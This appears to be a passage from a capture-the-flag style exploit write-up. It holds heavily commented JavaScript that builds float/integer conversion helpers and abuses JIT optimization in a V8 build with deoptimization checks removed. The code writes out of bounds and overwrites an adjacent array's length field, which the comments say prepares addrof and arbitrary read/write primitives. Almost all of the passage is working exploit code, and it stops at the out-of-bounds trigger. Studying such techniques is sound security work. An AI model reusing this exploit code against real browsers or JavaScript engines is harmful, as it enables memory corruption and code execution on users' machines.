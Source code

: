 See the following heavily commented code for the implemention:
```js
const NUM_LOOPS_FOR_OPTIM = 100000; // Change this if it is not optimizing

// conversion between floats, integers, and SMIs
// stolen from here: https://www.jaybosamiya.com/blog/2019/01/02/krautflare/
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);
BigInt.prototype.hex = function() {
	return '0x' + this.toString(16);
};
BigInt.prototype.i2f = function() {
	int_view[0] = this;
	return float_view[0];
}
BigInt.prototype.smi2f = function() {
	int_view[0] = this << 32n;
	return float_view[0];
}
Number.prototype.f2i = function() {
	float_view[0] = this;
	return int_view[0];
}
Number.prototype.f2smi = function() {
	float_view[0] = this;
	return int_view[0] >> 32n;
}
Number.prototype.i2f = function() {
	return BigInt(this).i2f();
}
Number.prototype.smi2f = function() {
	return BigInt(this).smi2f();
}

// function that accesses an array based on parameter
// we will first make v8 optimize the function, then access it with
// an invalid index. Since the deoptimization code has been removed, this
// will lead to an OOB access.
//
// c will contain unpacked values and will be used for the addrof primitive
// d will contain packed values and will be used for arbitrary read/write
function foobar(idx) {
	let a = [0.1, 0.1, 0.1, 0.1, 0.1, 0.1];
	let b = [1.1, 1.2, 1.3, 1.4, 1.5];
	let c = [{}, 2.2, 2.3, 2.4, 2.5, 2.6, 2.7, 2.8];
	let d = [3.1, 3.2, 3.3, 3.4];

	a[idx * 16] = (1024*1024).smi2f();

	oob_buffer = b;
	oob_buffer_unpacked = c;
	oob_buffer_packed = d;
}

// optimize function
for (var i = 0; i < NUM_LOOPS_FOR_OPTIM ; i++) {
	foobar(0);
}

// trigger function with oob value :))
// deoptimization isn't triggered, thus we end up setting a[16] to (1024 * 1024)
// this offset happens to be oob_buffer's length field
foobar(1);
```